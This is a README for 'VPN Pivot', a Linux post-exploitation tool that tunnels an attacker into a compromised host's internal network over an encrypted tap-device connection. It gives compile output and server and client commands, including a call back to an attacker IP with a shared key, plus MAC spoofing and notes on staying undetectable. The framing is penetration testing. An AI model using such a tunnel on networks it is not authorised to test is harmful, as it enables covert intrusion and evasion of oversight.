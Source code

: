 VPN Pivot!
===================
Sometime we do external penetration testing and when we compromise the remote target we would love to explore the internal network behind and getting such compromise like owning Active directory, accessing shared files ... etc.
There are many techniques like port forwarding, socks4 ..., but each one has its pros and cons . this is the reason why VPN pivoting techniques is out , it solves all the problems encountered by using both of the techniques mentioned above.
it lets you interact with internal networks that are prevented by firewalls,NATs .. etc

This an implementation of **VPN pivoting** technique in Linux using pure low-level sockets within tap device.
It creates a fully encrypted tunnel using a shared key between the target machine and the attacker.
 
----------


How it works
-------------
VPN Pivot sends and receive a fully encrypter TCP/IP stack over TCP socket,then the peers forward it into the desired device.
The attacker explores the internal network as he belongs to it within a local IP address taken from the dhcp server or statically configured . the used IP will never be reachable which makes him harder to track.

>**VPN Server: **
The VPNPivot server must be run in the the attacker machine, it creates a a virtual device (tap)  with the possibility to change MAC (that seems fine for spoofing and Mac switching) , IP address , MTU and also the owner of the interface.
The TAP devices interacts with the targets machine, it sends/receives raw ethernet frame.
Once the attacker get a successfully tunnel connection, the tap device can intercats with the DHCP server of the internal hacked network, receives/send broadcast packets, and also IP addresses reuse.

>**VPN Client: **
The VPN Pivot client must be run in the target machine, it creates two socket files , the first as client for the tunnel and the second for interacting with the device directly.
it works like we are creating a undetectable tap device which makes it harder to detect.
 
---------

Usage
-------------
**Compilation :**

> simo:~/projects/VPNPivot$ make
  [CC] vpnp_server.o
  [CC] crypto.o
  [BIN] vpnp_server
  [CC] vpnp_client.o
  [BIN] vpnp_client
  ---------
**vpnp_server :**
> ./vpnp_server -i pwn0 -I 10.10.10.145/24 -m 1500 -H 0c:0a:DE:AD:BE:EF -K "I0wnY0u*!" -v**
[+] Setup a non-persistent tap : pwn0
[+] Listening on port : 12345

So it creates an a tap device named pwn0 as shown bellow:
> 
simo:~$ ifconfig pwn0
pwn0      Link encap:Ethernet  HWaddr 0c:0a:de:ad:be:ef  
          inet adr:192.168.200.70  Bcast:192.168.200.255  Masque:255.255.255.0
          adr inet6: fe80::887e:86ff:fe8a:3599/64 Scope:Lien
          UP BROADCAST RUNNING  MTU:1500  Metric:1
          Packets reçus:0 erreurs:0 :0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 lg file transmission:500 
          Octets reçus:0 (0.0 B) Octets transmis:0 (0.0 B)

finally, it waits for the client to be connected 

**vpnp_client :**
> Usage : 
./vpnp_client 10.254.30.53 12345 10.10.10.1 "I0wnY0u*!"

That's it :-) , enjoy your pwning 

TODO
-------------
The main focus for the moment is to port the client to windows, The client is mainly designed to be portable and doesn't require any dependencies, 
Since windows doesn't support data link layer manipulation with WinSock ,thus we should hook some kernel function (NDIS hooks?).

